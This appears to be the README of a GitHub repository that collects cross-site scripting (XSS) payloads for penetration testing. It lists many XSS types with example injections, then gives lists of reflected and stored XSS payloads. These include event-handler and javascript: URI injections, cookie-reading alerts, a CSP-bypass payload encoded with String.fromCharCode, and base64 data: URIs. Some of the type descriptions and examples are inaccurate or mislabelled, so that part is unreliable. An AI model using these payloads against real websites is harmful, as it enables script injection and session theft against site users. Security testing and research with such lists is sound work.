 # XSS Payloads Repository

## 🚨 About This Repository
This repository is a comprehensive collection of **XSS (Cross-Site Scripting) Payloads** designed for educational, research, and penetration testing purposes. It includes payloads for various XSS attack types, ranging from common techniques to advanced exploitation methods. Security researchers, bug bounty hunters, and developers can utilize these payloads to test, identify, and mitigate XSS vulnerabilities effectively.

## 🧪 Types of XSS Payloads
This repository features payloads for the following XSS attack types:

### 🔹 Reflected XSS
- Occurs when untrusted data is included in the immediate response without proper validation.
- Payload Example: `<script>alert(1)</script>`

### 🔹 Stored XSS
- Occurs when malicious scripts are permanently stored on the server and executed when accessed.
- Payload Example: `<img src="x" onerror="alert(1)">`

### 🔹 DOM-Based XSS
- Exploits client-side JavaScript manipulation within the DOM.
- Payload Example: `document.write("<img src='x' onerror='alert(1)'>");`

### 🔹 Blind XSS
- Injects payloads in areas that execute later (e.g., admin panels, logs).
- Payload Example: `<svg onload=alert(1)>`

### 🔹 Self XSS
- Exploits users tricked into executing malicious code in their own browsers.
- Payload Example: `javascript:alert(document.cookie)`

### 🔹 Mutation XSS
- Exploits HTML parsers that automatically modify injected payloads.
- Payload Example: `<a href="javascript:alert(1)">Click me</a>`

### 🔹 Polyglot XSS
- Uses hybrid payloads that execute in multiple contexts (HTML, JavaScript, etc.).
- Payload Example: `"><img src=x onerror=alert(1)>`

### 🔹 Universal XSS (UXSS)
- Exploits browser vulnerabilities rather than web applications.
- Payload Example: Browser-specific exploits vary widely.

### 🔹 Attribute-Based XSS
- Injects payloads directly into HTML attributes.
- Payload Example: `<input value='" onfocus="alert(1)' autofocus>`

### 🔹 Cookie-Based XSS
- Exploits insecure cookies to deliver malicious scripts.
- Payload Example: `document.cookie="malicious=1"; alert(document.cookie);`

### 🔹 Post-Based XSS
- Exploits XSS payloads via HTTP POST requests.
- Payload Example: `<input type="text" value="<script>alert(1)</script>">`

### 🔹 JSON-Based XSS
- Injects malicious code into JSON responses processed by JavaScript.
- Payload Example: `{"name":"<script>alert(1)</script>"}`

### 🔹 WebSocket XSS
- Exploits insecure WebSocket connections to inject scripts.
- Payload Example: `ws.send('<script>alert(1)</script>')`

### 🔹 Indirect XSS
- Payloads that exploit third-party integrations to execute code.
- Payload Example: Using vulnerable API endpoints.

### 🔹 Iframe-Based XSS
- Uses iframes to deliver XSS payloads.
- Payload Example: `<iframe src="javascript:alert(1)"></iframe>`

### 🔹 PDF-Based XSS
- Injects JavaScript directly into PDF viewers.
- Payload Example: `/#whatever#javascript:alert(document.cookie)`

### 🔹 SVG-Based XSS
- Exploits SVG elements to trigger malicious code.
- Payload Example: `<svg><script>alert(1)</script></svg>`

### 🔹 Flash-Based XSS
- Targets Flash vulnerabilities (mainly legacy systems).
- Payload Example: Flash-specific exploits vary based on software version.

### 🔹 AJAX XSS
- Payloads designed to exploit AJAX requests.
- Payload Example: `$.get("/vuln", {data:"<script>alert(1)</script>"});`

### 🔹 CSP Bypass XSS
- Exploits misconfigured Content Security Policies.
- Payload Example: `<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">`

### 🔹 Canonical XSS
- Uses encoding techniques to bypass security filters.
- Payload Example: `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`

### 🔹 Event Handler XSS
- Executes payloads via JavaScript event handlers.
- Payload Example: `<img src=x onerror=alert(1)>`

### 🔹 JSONP XSS
- Targets insecure JSONP endpoints to execute payloads.
- Payload Example: `callback=<script>alert(1)</script>`

### 🔹 XHR-Based XSS
- Exploits XMLHttpRequest to deliver payloads.
- Payload Example: `xhr.open("GET", "javascript:alert(1)", true);`

---

## 📋 Reflected XSS Payloads

### Common Reflected XSS Payloads
- `<script>alert('XSS')</script>`
- `"><script>alert('XSS')</script>`
- `<img src=x onerror=alert('XSS')>`
- `<svg onload=alert('XSS')>`
- `<iframe src="javascript:alert('XSS')"></iframe>`
- `<body onload=alert('XSS')>`
- `<link rel="stylesheet" href="javascript:alert('XSS')">`
- `<a href="javascript:alert('XSS')">Click me</a>`
- `<input value="" onfocus="alert('XSS')">`
- `<div onmouseover="alert('XSS')">Hover me</div>`

### Advanced Reflected XSS Techniques
- `"><img src=x onerror=alert('XSS')>`
- `"><svg onload=alert('XSS')>`
- `<img src=1 onerror='alert("XSS")'>`
- `<svg><script>alert('XSS')</script>`
- `javascript:alert('XSS')`
- `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
- `<iframe src="javascript:alert('XSS')"></iframe>`
- `" onfocus="alert('XSS')" autofocus`
- `" onclick="alert('XSS')">Click me`
- `'><img src=x onerror=alert('XSS')>`

---

# Stored XSS Payloads

### Common Stored XSS Payloads
- `<script>alert('Stored XSS')</script>`
- `<img src=x onerror=alert('Stored XSS')>`
- `<svg onload=alert('Stored XSS')>`
- `<iframe src="javascript:alert('Stored XSS')"></iframe>`
- `<body onload=alert('Stored XSS')>`
- `<link rel="stylesheet" href="javascript:alert('Stored XSS')">`
- `<a href="javascript:alert('Stored XSS')">Click me</a>`
- `<input value="" onfocus="alert('Stored XSS')">`
- `<div onmouseover="alert('Stored XSS')">Hover me</div>`
- `<marquee onstart="alert('Stored XSS')">Scroll me</marquee>`

### Advanced Stored XSS Techniques
- `"><img src=x onerror=alert('Stored XSS')>`
- `"><svg onload=alert('Stored XSS')>`
- `<img src=1 onerror='alert("Stored XSS")'>`
- `<svg><script>alert('Stored XSS')</script>`
- `javascript:alert('Stored XSS')`
- `data:text/html;base64,PHNjcmlwdD5hbGVydCgnU3RvcmVkIFhTUycpPC9zY3JpcHQ+`
- `<iframe src="javascript:alert('Stored XSS')"></iframe>`
- `" onfocus="alert('Stored XSS')" autofocus`
- `" onclick="alert('Stored XSS')">Click me`
- `'><img src=x onerror=alert('Stored XSS')>`

---


